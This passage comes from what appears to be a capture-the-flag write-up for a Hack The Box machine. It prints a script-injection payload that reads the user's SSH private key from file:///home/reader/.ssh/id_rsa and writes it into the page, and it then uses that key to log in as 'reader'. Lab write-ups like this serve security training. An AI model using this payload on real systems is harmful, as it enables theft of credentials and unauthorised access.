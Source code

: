 We have access to his SSH private key but I'm missing some of the output on the right because of the default font used.

![](/assets/images/htb-writeup-book/fileread2.png)

One way to fix this is to add a `<pre>` HTML tag to our payload: `<script>x=new XMLHttpRequest;x.onload=function(){document.write("<pre>"+this.responseText+"</pre>")};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>`

Now that looks much better:

![](/assets/images/htb-writeup-book/fileread3.png)

With the SSH key we can log in with user **reader**.

